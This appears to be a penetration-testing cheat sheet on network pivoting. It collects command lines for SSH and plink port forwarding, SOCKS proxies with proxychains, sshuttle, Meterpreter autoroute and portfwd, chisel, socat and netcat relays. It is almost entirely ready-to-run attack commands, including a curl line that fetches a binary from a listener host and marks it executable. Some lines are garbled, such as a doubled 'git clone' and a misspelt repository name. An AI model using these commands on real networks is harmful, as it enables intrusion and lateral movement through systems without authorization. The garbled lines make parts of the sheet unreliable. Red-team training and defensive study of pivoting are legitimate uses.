 # Pivoting

### Single reverse port forwarding

```bash
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
ssh -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
```

### Single Local port forwarding

```bash
ssh -l root -pw password -L 445:127.0.0.1:445 <target>
```

### Dynamic port forwarding

Socks proxy (socks5) 

```bash
ssh -l root -pw password -D 1234 <target>
```

Double SSH tunnel

```bash
ssh <1st_target> -L 2222:<2nd_target>:22
ssh localhost -p 2222 -D 1234
```

### Proxychains

1. choose any tools to create a socks proxy 

```bash
ssh <target> -D 1234
```

2. configure proxychains.conf with the protocl and port you chose for the socks proxy

`sudo vim /etc/proxychains.conf `

```bash
quiet_mode				   # enable this 
socks5	127.0.0.1 1234     # change this
```

3. Use any tool prepending the proxychains command :

```bash
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:1234 --force
```
> For nmap, you need to specify the -Pn and -sT arguments

```bash
proxychains nmap -sT -Pn <target>
```
> You can also forward a single port to avoid using a socks proxy, or use sshuttle


### SSHuttle

```sh
# sudo apt-get update && sudo apt-get install sshuttle
sshuttle -r <target_ip>:22 <target_network>/24
```

---

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip> [-P <listener_port>] 
```

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

### Chisel

* [chisel](https://github.com/jpillora/chisel) : Socks SSH for Windows

```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```


### SOCAT

```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```

### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

## ReGeorg

Socks proxy over web

* [reGeorg](https://github.com/sensepost/reGeorg)


## Nmap like

Nmap like for windows

[PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009)

